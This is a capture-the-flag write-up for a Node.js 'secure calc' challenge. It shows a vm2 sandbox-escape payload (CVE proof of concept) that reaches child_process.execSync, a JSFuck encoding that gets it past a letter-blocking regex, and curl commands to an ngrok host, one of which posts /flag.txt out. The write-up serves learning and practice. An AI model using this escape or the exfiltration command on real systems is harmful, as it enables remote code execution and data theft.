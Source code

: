 ```yaml
---
title: "Web: secure calc"
date: "2024-08-03"
tags:
    - CVE
    - regex
thumbnail: "/assets/img/thumbnail/ascwgs24.png"
---
```



# Description
---
This site is secure and sandboxed.

# Solution
---
When we start the challange we will find the source code which is a NodeJS express site and it's a small app as you see
```js
const express = require("express");
const {VM} = require("vm2");

const app = express();
const vm = new VM();

app.use(express.json());



app.get('/', function (req, res) {
    return res.send("Hello, just index : )");
});

app.post('/calc',async function (req, res) {
    let { eqn } = req.body;
    if (!eqn) {
        return res.status(400).json({ 'Error': 'Please provide the equation' });
    } 
    else if (eqn.match(/[a-zA-Z]/)) {
        return res.status(400).json({ 'Error': 'Invalid Format' });
    }

    try {
        result = await vm.run(eqn);
        res.send(200,result);
    } catch (e) {
        console.log(e);
        return res.status(400).json({ 'Error': 'Syntax error, please check your equation' });
    }
});



app.listen(3000,'0.0.0.0',function(){
    console.log("Started !")
});
```

We see `const {VM} = require("vm2");`, I searched for it and i knew the version from `package.json` file attached ith the challange and the version was `"vm2": "^3.9.19"`.
It's vulnerable to sandbox escaping and the poc is in this <a href="https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9">article</a>. We see that the code executed is passed to `vm.run(code)` function and we have this function in the code of the challange.

When we examine `/calc` endpoint we see that it's an endpoint for solving equations and we will find 4 steps:
- checking if there's a data in the request body (this data will be in json format)
- data is passed to regex checker to make sure that the data in the request body doesn't contain any characters
- `vm.run(code)` at which the equation will be solved or our code will be executed and it's our goal
- syntax error if there is any error from `vm.run(code)`

I have the CVE POC code so i can escape the sandbox but the problem is in bypassing regex.

When i send a normal data without any alphabetical characters i get the result of the equation like this
<img src="/assets/img/ascwgs/eqn.png">

When i try sending any characters i get `"Error":"Invalid Format"`
after many attempts i got an error in the syntax that told me json.parse is used
<img src="/assets/img/ascwgs/parse.png">

This made me to think about `prototype pollution`
I tried
```
{
    "__proto__": {
        "eqn": "1+2"
    }
}
```
but it couldn't detect that it's an equation.
I tried many encoding algorithms like unicode but didn't work.
After many attempts i found the suitable encoding way it's `JSFuck` because it consists of symbols only so it will work

I used this payload
```js
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('curl http://ngrokIP:ngrokport'); }
            )
        }
    }
};
p.then();
```
and converted it to JSFuck using any online <a href="https://jsfuck.com/">converter</a> and send that request
<img src="/assets/img/ascwgs/curl.png">
The curl command worked well
<img src="/assets/img/ascwgs/curl.png">
Now let's read the flag but making the command to be
```
curl -X POST --data-binary "@/flag.txt" http://ngrokIP:port
```

convert it and send the request like we did before AND ..
<img src="/assets/img/ascwgs/flag2.png">
GG !!